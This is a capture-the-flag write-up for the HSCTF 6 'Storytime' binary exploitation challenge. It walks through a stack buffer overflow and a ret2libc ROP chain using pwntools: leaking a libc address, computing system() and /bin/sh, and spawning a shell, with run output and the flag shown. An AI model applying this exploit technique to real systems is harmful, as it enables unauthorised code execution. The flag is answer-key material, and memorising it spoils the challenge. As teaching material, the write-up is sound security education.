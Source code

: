 # Storytime

| Event | Title | Category | Cost |
|:------|:----------|:---------|-------:|
| HSCTF 6 | Storytime | Binary Exploitation | ~350 |

### DiscriptionWritten by: Tux
>I want a story!!!
>
> ```
> nc pwn.hsctf.com 3333
> ```

### Information
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

### Solution

Buffer overflow with NX and without libc version.
`read()` function is also weak for buf overflow.

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-30h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  write(1, "HSCTF PWNNNNNNNNNNNNNNNNNNNN\n", 0x1DuLL);
  write(1, "Tell me a story: \n", 0x12uLL);
  read(0, &buf, 0x190uLL);
  return 0;
}
```

We need leak some address from got table, print it, compare offsets between downloaded libc and stored on server, calculate `system()` and `/bin/sh/` addresses and send them using some ROP-gadgets and new call of `read()` function.

Leaking `__libc_start_main`:

```python
elf = ELF("./storytime")
rop = ROP(elf)
...
WRITE = elf.plt['write']
LIBC_START_MAIN = elf.symbols['__libc_start_main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
POP_RSI = 0x400701 # pop rsi ; pop r15 ; ret
...
pl += p64(POP_RDI)
pl += p64(0X1)
pl += p64(POP_RSI)
pl += p64(LIBC_START_MAIN)
pl += p64(0x1)
pl += p64(WRITE)
...
leak = u64(data[0:6].strip().ljust(8, '\x00'))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))
```

Defining libc version with this site - <https://libc.blukat.me/?q=__libc_start_main%3A0x7ff40347d740>
Let\`s download `libc6_2.23-0ubuntu11_amd64`.

```python
libc = ELF("libc6_2.23-0ubuntu10_amd64.so")
...
libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))
```

Finding `system()` and `/bin/sh` addresses:

```python
BINSH = next(libc.search("/bin/sh"))
SYSTEM = libc.sym["system"]
```

Calling another read function - `climax()`

```c
ssize_t climax()
{
  char buf; // [rsp+0h] [rbp-30h]

  return read(0, &buf, 0xFA0uLL);
}
```

```python
pl += p64(CLIMAX) # read
io.sendline(pl)
...
pl2  = padding
pl2 += p64(POP_RDI)
pl2 += p64(BINSH)
pl2 += p64(SYSTEM)
io.sendline(pl2)
```

Used ROP-gadgets:

```python
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
POP_RSI = 0x400701 # pop rsi ; pop r15 ; ret
```

It`s enough to wtite an [exploit](https://github.com/Red-Cadets/HSCTF-6/blob/master/Binary%20Exploitation/Storytime/exp.py).

After we can run it and get the flag.

```sh
$ ./exp.py 
[*] '/mnt/hgfs/shared/reverse/HSCTF6/storytime/storytime'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/mnt/hgfs/shared/reverse/HSCTF6/storytime/libc6_2.23-0ubuntu10_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded cached gadgets for './storytime'
[*] write@plt: 0x40049c
[*] __libc_start_main: 0x600ff0
[+] Opening connection to pwn.hsctf.com on port 3333: Done
HSCTF PWNNNNNNNNNNNNNNNNNNNN
Tell me a story: 

[*] Leaked libc address,  __libc_start_main: 0x7f27fda56740
[*] Address of libc 0x7f27fda36000 
[*] bin/sh 0x7f27fdbc2d57 
[*] system 0x7f27fda7b390 
[*] Switching to interactive mode
# cat flag
hsctf{th4nk7_f0r_th3_g00d_st0ry_yay-314879357}
```

##### Flag

```
hsctf{th4nk7_f0r_th3_g00d_st0ry_yay-314879357}
```
